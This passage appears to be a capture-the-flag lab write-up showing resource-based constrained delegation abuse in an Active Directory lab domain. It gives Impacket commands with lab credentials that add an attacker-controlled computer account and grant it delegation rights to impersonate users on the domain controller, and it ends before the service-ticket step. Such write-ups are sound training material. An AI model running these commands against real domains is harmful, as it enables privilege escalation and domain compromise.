 <figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



First, if an attacker does not control an account with an SPN set, a new attacker-controlled computer account can be added with Impacket's addcomputer.py example script:

{% code title="" overflow="wrap" %}
```bash
impacket-addcomputer -method SAMR -computer-name 'GIGIPC' -computer-pass 'Password123!' -dc-host 'K2RootDC.k2.thm' -domain-netbios k2.thm 'k2.thm/o.armstrong:arMStronG08'

# output
[*] Successfully added machine account GIGIPC$ with password Password123!.
```
{% endcode %}

We now need to configure the target object so that the attacker-controlled computer can delegate to it. Impacket's rbcd.py script can be used for that purpose:

{% code title="" overflow="wrap" %}
```bash
impacket-rbcd -delegate-from 'GIGIPC$' -delegate-to 'K2RootDC$' -action 'write' 'k2.thm/o.armstrong:arMStronG08'

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] GIGIPC$ can now impersonate users on K2RootDC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     GIGIPC$      (S-1-5-21-1966530601-3185510712-10604624-1116)
```
{% endcode %}

And finally we can get a service ticket for the service name (sname) we want to "pretend" to be "admin" for. Impacket's getST.py example script can be used for that purpose.
